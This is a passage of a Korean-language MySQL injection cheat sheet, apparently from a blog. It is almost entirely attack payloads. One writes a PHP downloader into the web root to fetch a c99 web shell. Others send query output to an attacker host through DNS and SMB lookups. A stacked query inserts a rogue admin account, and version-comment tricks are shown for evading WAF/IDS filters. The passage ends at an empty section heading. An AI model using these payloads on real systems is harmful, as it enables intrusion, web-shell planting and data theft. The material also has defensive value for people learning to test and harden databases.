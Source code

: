 `다운로더를 작성하려면 :<br>
SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'<br><br>
다음 위치에서 액세스하십시오 :<br>
hxxp://localhost/get.php?f=shell.php&u=http://localhost/c99.txt`<br><br>

노트 :<br>
파일은 INTO OUTFILE 로 겹쳐 쓸 수 없음.<br>
INTO OUTFILE 은 쿼리의 마지막 명령문이어야 함.<br>
경로 이름을 인코딩할 방법이 없으므로 따옴표가 필요함.<br><br><br>



## (17) 대역 외 채널링

**① DNS Requests**<br><br>

1SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.attacker.com\\'));1<br><br>

**② SMB Requests**<br><br>

`' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt`<br><br><br>



### (18) 누적된 쿼리(Stacked Queries)

누적된 쿼리 기법은 하나의 쿼리에 추가적인 쿼리를 삽입하는 기법임.<br>
PHP 응용 프로그램이 데이터베이스와 통신하는 데 사용되는 드라이버에 따라 MySQL 에서 가능함.<br>
PDO_MYSQL 드라이버는 누적된 쿼리(Stacked Queries)를 지원함.<br>
MySQLi (Improved Extension) 드라이버는 multi_query() 함수를 통해 누적된 쿼리(Stacked Queries)를 지원함.<br><br>

예 :<br>
`SELECT * FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users(username, password, priv) VALUES ('BobbyTables', 'kl20da$$','admin');<br>
SELECT * FROM Users WHERE ID=1 AND 1=0; SHOW COLUMNS FROM Users;`<br><br><br>



### (19) MySQL 특정 코드

MySQL 에서는 느낌표 뒤에 버전 번호를 지정할 수 있음.<br>
주석의 구문은 버전이 지정된 버전 번호보다 크거나 같으면 실행됨.<br><br>

예 :<br>
`UNION SELECT /*!50000 5,null;*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+<br>
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);`<br><br>

노트 :<br>
첫 번째 예제는 버전을 반환함. 2개의 컬럼이 있는 UNION 을 사용함.<br>
두 번째 예제는 WAF/IDS 를 우회하는데 어떻게 사용되는 지를 보여줌.<br><br><br>



## (20) 퍼징(Fuzzing)과 난독화(Obfuscation)

**① 허용된 중간 문자열**<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mysql-injection-cheet-sheet.html "Go KOROMOON"